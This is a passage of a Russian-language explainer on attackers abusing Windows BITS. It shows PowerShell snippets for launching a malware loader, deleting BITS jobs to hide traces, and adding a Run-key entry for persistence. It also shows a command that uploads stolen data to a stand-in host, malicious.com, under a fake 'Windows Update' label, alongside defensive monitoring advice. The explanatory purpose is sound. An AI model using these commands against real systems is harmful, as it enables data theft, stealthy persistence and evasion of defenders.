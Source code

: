 2. **Запуск загрузчика для загрузки основного вредоносного файла**:  
   После завершения загрузки загрузчик запускается и скачивает основной вредоносный файл.

   ```powershell
   Start-Process "C:\Temp\loader.exe"
   ```

3. **Сокрытие активности**:  
   После выполнения загрузчика задание BITS удаляется, чтобы скрыть следы.

   ```powershell
   Remove-BitsTransfer -BitsJob $job
   ```

4. **Установка устойчивости**:  
   Основной вредоносный файл добавляется в автозагрузку для обеспечения устойчивости.

   ```powershell
   Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MaliciousApp" -Value "C:\Temp\malware.exe"
   ```

**Анализ:**  
- **Цель**: Загрузка и выполнение вредоносного ПО через многоэтапный процесс.  
- **Методы сокрытия**: Удаление задания BITS и использование загрузчика для минимизации подозрений.  
- **Рекомендации по защите**: Мониторинг активности BITS и проверка автозагрузки на наличие подозрительных записей.

---

### Пример 2: Использование BITS для передачи данных с заражённой системы

**Шаги злоумышленников:**

1. **Создание задания для отправки данных**:  
   Злоумышленник использует BITS для отправки украденных данных на удалённый сервер.

   ```powershell
   $job = Start-BitsTransfer -Source "C:\SensitiveData\stolen_data.zip" -Destination "https://malicious.com/upload"
   $job.Resume()
   ```

2. **Маскировка задания**:  
   Задание получает описание, похожее на системное, чтобы избежать подозрений.

   ```powershell
   $job.Description = "Windows Update Data Sync"
   ```

3. **Автоматическое возобновление передачи**:  
   Если передача прерывается, задание автоматически возобновляется благодаря встроенным функциям BITS.

4. **Удаление задания после завершения**:  
   После успешной передачи данных задание удаляется.

   ```powershell
   Remove-BitsTransfer -BitsJob $job
   ```
